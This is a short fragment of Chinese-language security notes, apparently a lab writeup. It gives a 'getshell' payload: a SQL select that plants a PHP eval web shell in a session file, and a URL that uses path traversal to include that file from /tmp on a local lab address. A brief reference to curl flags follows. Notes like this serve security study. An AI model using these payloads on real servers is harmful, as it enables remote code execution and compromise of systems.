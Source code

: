  ![](img/success2.png)



- getshell payload：
  - `select '<?php eval($_GET[a]);?>'`
  - ` http://192.168.56.107:8002/index.php?a=phpinfo();&target=db_sql.php%3f/../../../../../../tmp/sess_b14d4480c3ad5c1da05ea51e62081289`

## 其他

### curl

[curl 的用法指南]( https://www.ruanyifeng.com/blog/2019/09/curl-reference.html )

- -F  参数用来向服务器上传二进制文件。

- -s  参数将不输出错误和进度信息。 

- -S   参数指定只输出错误信息，通常与`-s`一起使用。 

-  -L 参数会让 HTTP 请求跟随服务器的重定向。curl 默认不跟随重定向。 
